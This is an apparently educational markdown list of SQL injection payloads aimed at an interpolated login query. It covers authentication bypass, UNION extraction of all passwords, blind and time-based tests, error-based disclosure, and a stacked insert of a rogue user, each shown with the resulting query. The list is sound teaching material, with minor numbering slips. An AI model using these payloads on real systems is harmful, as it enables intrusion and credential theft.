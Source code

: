 # SQL Injection Examples for Educational/Security Testing

These examples show various SQL injection techniques that exploit the vulnerable string interpolation pattern. The key vulnerability is that user input is directly concatenated into the SQL query without proper sanitization or parameterization.

## Key injection types demonstrated:

1. Authentication bypass - Using OR conditions to always return true
1. Union attacks - Combining results from multiple queries to extract data
1. Blind injection - Testing conditions when you can't see direct output
1. Time-based attacks - Using delays to confirm successful injection
1. Error-based - Forcing database errors that reveal information
1. Stacked queries - Executing multiple SQL statements

# Vulnerable pattern: f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"

# Example 1: Authentication bypass using OR condition

username = "admin' OR True=True -- "
password = "anything"

> SELECT * FROM users WHERE username = 'admin' OR True=True -- ' AND password = 'dsdsds'

# Example 1: Authentication bypass using OR condition

username = "admin' OR '1'='1' -- "
password = "anything"

> SELECT * FROM users WHERE username = 'admin' OR '1'='1' -- ' AND password = 'anything'
  The -- comments out the password check, '1'='1' is always true

# Example 2: Union-based injection to extract data. X

username = "admin' UNION SELECT username, password FROM users -- "
password = "anything"

> SELECT * FROM users WHERE username = 'admin' UNION SELECT username, password FROM users -- ' AND password = 'anything'
  Returns all usernames and passwords from the users table

# Example 3: Boolean-based blind injection

username = "admin' AND (SELECT COUNT(*) FROM users) > 0 -- "
password = "anything"

> SELECT * FROM users WHERE username = 'admin' AND (SELECT COUNT(*) FROM users) > 0 -- ' AND password = 'anything'
  Tests if users table exists based on query success/failure

# Example 4: Time-based blind injection. X

username = "admin'; WAITFOR DELAY '00:00:05' -- "
password = "anything"

> Resulting query: SELECT * FROM users WHERE username = 'admin'; WAITFOR DELAY '00:00:05' -- ' AND password = 'anything'
  Causes 5-second delay if injection works (SQL Server syntax)

# Example 5: Error-based injection. XX

username = "admin' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e)) -- "
password = "anything"

> Forces MySQL error that reveals database version information

# Example 6: Stacked queries (if supported)

username = "admin'; INSERT INTO users VALUES ('hacker', 'password123'); -- "
password = "anything"

Attempts to insert a new user record
